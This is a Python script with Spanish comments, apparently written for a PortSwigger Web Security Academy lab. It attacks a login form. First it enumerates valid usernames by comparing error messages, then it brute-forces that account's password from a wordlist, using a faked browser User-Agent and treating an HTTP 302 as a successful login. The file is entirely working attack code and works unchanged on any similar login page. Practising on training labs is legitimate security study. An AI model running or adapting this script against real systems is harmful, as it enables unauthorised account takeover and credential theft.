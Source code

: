 # Bruteforcing_Alexander

import requests

# URL Objetivo

TARGET_URL = "https://0aa400ba0481262480ec7100003d0006.web-security-academy.net/login"


# Archivos de usuarios y contraseñas

USER_FILE = "usuarios_noborrar.txt"
PASSWORD_FILE = "passwords_db.txt"

# El servidor pensara que la petición viene de un navegador

HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "Content-Type": "application/x-www-form-urlencoded"
}

# Cargar usuarios

def load_users():
    with open(USER_FILE, "r", encoding="utf-8") as file:
        return [line.strip() for line in file if line.strip()]

# Cargar contraseñas

def load_passwords():
    with open(PASSWORD_FILE, "r", encoding="utf-8") as file:
        return [line.strip() for line in file if line.strip()]

# Enumerar usuarios
def enumerate_users(usernames):
    valid_user = None
    for user in usernames:
        data = {"username": user, "password": "wrongpassword"}  # Usamos un password incorrecto a propósito
        response = requests.post(TARGET_URL, headers=HEADERS, data=data, allow_redirects=False)
        
        # Identificamos la diferencia en la respuesta, para hallar el usuario correcto

        if "Incorrect password" in response.text:  
            print(f"[+] Usuario válido encontrado: {user}")
            valid_user = user
            break

    if not valid_user:
        print("[-] No se encontraron usuarios válidos.")
    return valid_user

# Ataque de fuerza bruta a la contraseña
def brute_force_password(username, passwords):
    for password in passwords:
        data = {"username": username, "password": password}
        response = requests.post(TARGET_URL, headers=HEADERS, data=data, allow_redirects=False)

        # Si la respuesta es 302, significa que el login fue exitoso

        if response.status_code == 302:
            print(f"[+] Credenciales válidas encontradas: {username}:{password}")
            return password

    print("[-] No se encontró una contraseña válida.")
    return None

# Ejecutar el ataque

if __name__ == "__main__":
    users = load_users()
    passwords = load_passwords()

    user = enumerate_users(users)
    if user:
        brute_force_password(user, passwords)



input("Presiona Enter...")

